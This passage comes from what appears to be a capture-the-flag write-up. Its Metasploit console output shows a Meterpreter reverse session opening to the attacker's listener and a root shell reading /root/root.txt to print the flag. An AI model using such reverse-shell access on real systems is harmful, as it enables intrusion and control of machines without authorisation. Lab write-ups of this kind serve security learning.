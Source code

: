 And directly after this, we see that the payload was successful:
```
[*] Sending stage (53508 bytes) to 10.10.10.70
[*] Meterpreter session 7 opened (10.10.15.78:8123 -> 10.10.10.70:52184) at 2018-07-18 09:10:03 +0200
```

Finally we we interact with this new session to get the flag:
```
msf exploit(multi/handler) > sessions -i 7
[*] Starting interaction with 7...

meterpreter > shell
Process 2157 created.
Channel 1 created.
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
928c3df1a12d7f67d2e8c2937120976d
```
